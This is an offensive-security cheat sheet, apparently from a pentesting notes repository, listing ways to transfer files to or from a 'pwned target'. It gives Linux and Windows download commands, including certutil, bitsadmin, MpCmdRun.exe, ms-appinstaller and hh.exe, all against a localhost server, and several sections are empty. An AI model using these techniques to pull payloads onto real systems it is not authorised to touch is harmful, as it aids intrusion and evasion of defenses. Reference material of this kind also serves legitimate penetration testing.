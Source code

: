 # Exfiltration/Transfer Methodology 🚁
This file will be fulfilled in the future with methodologies on data exfiltration and file transfer from the pwned target.
# Linux
### HTTP transfer
With `wget`
```bash
wget http://127.0.0.1:8000/hello -O /dev/shm/volatile_hello
```
With `curl`
```bash
curl "http://127.0.0.1:8000/hello" -o /dev/shm/hello
```
With `telnet`
```bash
(echo 'GET hello'; echo ""; sleep 1; ) | telnet 127.0.0.1 8000 > hello.txt
```
### FTP transfer
### SCP transfer
### SMB transfer
### Sharing folder over RDP
### Other methods
With `base64` encoding
```bash
# from sender terminal
cat file_2_encode | base64 > file_encoded
# copy the encoded file to your clipboard
# or transfer it via other means

# from receiver terminal
cat file_encoded | base64 -d > file_decoded
```
# Windows
### HTTP transfer
With `powershell`
```powershell
# With WebClient
(New-Object System.Net.WebClient).DownloadFile("http://127.0.0.1:8000/hello","hello")
# With Invoke-WebRequest
Invoke-WebRequest -Uri http://127.0.0.1:8000/hello -OutFile hello
iwr http://127.0.0.1:8000/hello -outf hello
```

With `curl.exe` (Included by default on Windows 10):
```bash
curl --url http://127.0.0.1:8000/hello
```
 With `bitsadmin`
 ```bash
bitsadmin /transfer myDownloadJob /download /priority normal http://127.0.0.1:8000/hello c:\temp\hello 
 ```
 With `certutil.exe`
 ```bash
certutil.exe -urlcache -split -f "https://127.0.0.1:8000/hello" hello
 ```
 With `MpCmdRun.exe` (Windows Defender)
 ```bash
 "%ProgramFiles%\Windows Defender\MpCmdRun.exe" -DownloadFile -URL "http://127.0.0.1:8000/hello" -path "C:\temp\hello"
 ```
 With `AppInstaller.exe`
> AppInstaller.exe is spawned by the default handler for the URI, it attempts to load/install a package from the URL and is saved in `C:\Users\%username%\AppData\Local\Packages\Microsoft.DesktopAppInstaller_8wekyb3d8bbwe\AC\INetCache\`
 ```bash
start ms-appinstaller://?source=http://127.0.0.1:8000/update.msi
 ```
 With `Hh.exe`
 ```bash
 hh.exe http://127.0.0.1:8000/hello
 ```
 ### FTP transfer
### SCP transfer
### SMB transfer
### Sharing folder over RDP
